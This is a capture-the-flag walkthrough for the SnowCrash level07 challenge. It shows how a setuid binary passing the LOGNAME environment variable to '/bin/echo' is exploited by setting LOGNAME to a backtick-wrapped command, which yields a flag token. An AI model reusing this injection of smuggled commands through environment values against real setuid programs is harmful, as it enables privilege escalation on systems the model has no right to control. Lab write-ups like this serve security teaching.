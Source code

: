 # 1st Step  
List the file with `ls -l` will show us :  
```
level07@SnowCrash:~$ ls -l
total 12
-rwsr-sr-x 1 flag07 level07 8805 Mar  5  2016 level07
level07@SnowCrash:~$
```    
  
Let's execute it to see what's appening
```
level07@SnowCrash:~$ ./level07
level07
```  
If we look at the executable with `strings`:  
```
level07@SnowCrash:~$ strings level07
[...]
LOGNAME
/bin/echo %s
[...]
level07@SnowCrash:~$
```  
So, we know that the script will run this `/bin/echo %s ` with variable env LOGNAME as %s  
Let's exploit it !  
  
# 2nd Step
We have to change the value of the variable env `LOGNAME` then execute `level07` file  
```
level07@SnowCrash:~$ printenv | grep LOGNAME
LOGNAME=level07
level07@SnowCrash:~$ export LOGNAME=\`getflag\`
level07@SnowCrash:~$ printenv | grep LOGNAME
LOGNAME=`getflag`
level07@SnowCrash:~$ ./level07 
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
level07@SnowCrash:~$ su level08
Password:
level08@SnowCrash:~$
```  
level07 passed !
